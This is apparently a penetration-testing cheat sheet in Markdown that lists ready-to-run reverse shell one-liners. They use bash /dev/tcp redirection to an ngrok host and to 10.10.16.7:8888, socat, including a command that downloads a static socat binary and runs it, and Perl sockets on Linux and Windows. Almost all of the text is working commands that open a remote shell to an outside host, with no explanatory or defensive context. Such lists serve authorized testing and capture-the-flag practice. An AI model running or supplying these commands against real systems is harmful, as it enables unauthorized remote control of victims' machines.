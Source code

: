 # Reverse Shell Cheat Sheet
## [tool](https://www.revshells.com/)
## bash
```console
kali@kali:~$ bash -i >& /dev/tcp/8.tcp.ngrok.io/18545 0>&1
kali@kali:~$ bash -c 'bash -i >& /dev/tcp/10.10.16.7/8888 0>&1'
kali@kali:~$ 0<&196;exec 196<>/dev/tcp/10.10.16.7/8888; sh <&196 >&196 2>&196
kali@kali:~$ /bin/bash -l > /dev/tcp/10.10.16.7/8888 0<&1 2>&1
kali@kali:~$ exec 5<> /dev/tcp/10.10.16.7/8888; cat <&5 | while read line; do $line 2>&5>&5; done
```
## [socat](https://github.com/thotrangyeuduoi/template/blob/master/note.md#socat)
```console
#local
kali@kali:~$ socat file:`tty`,raw,echo=0 TCP-L:8888
#target
kali@kali:~$ /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.16.7:8888
#binaryFile on target
kali@kali:~$ wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.16.7:8888
```
*[https://github.com/andrew-d/static-binaries]( https://github.com/andrew-d/static-binaries)*
## perl
```console
kali@kali:~$ perl -e 'use Socket;$i="10.10.16.7";$p=8888;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
kali@kali:~$ perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"10.10.16.7:8888");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
#NOTE: Windows only
C:\Users\offsec> perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"10.10.16.7:8888");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```